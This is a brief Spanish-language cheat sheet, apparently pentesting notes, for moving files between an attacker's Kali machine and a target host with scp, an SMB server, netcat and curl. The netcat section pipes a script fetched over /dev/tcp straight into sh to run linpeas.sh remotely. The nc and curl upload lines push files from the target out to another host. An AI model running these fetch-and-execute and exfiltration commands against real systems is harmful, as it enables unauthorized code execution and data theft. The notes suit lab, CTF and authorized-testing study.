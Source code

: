 https://blog.ropnop.com/transferring-files-from-kali-to-windows/#smb

# SCP
Desde máquina remot a local
```
scp -r nico@192.168.1.81:/nico/homer.jpg homer.jpg
```

# SMB
Crear servidor smb
```
smbserver.py <nombre del directorio> <lugar del directorio>
---
smbserver.py lepra .
```

# NC
De local a remoto
```
# Máquina local
sudo nc -q 5 -lvnp 8888 < linpeas.sh
---
# Máquina remota
cat < /dev/tcp/192.168.0.5/8888 | sh
```
De remoto a local
```
# Máquina local
nc -lvnp 1337 > archivo.py
---
# Máquina remota
nc 192.168.1.23 1337 < archivo.py
```

# Curl 
```
curl --upload-file <archivo> http://192.168.1.93
```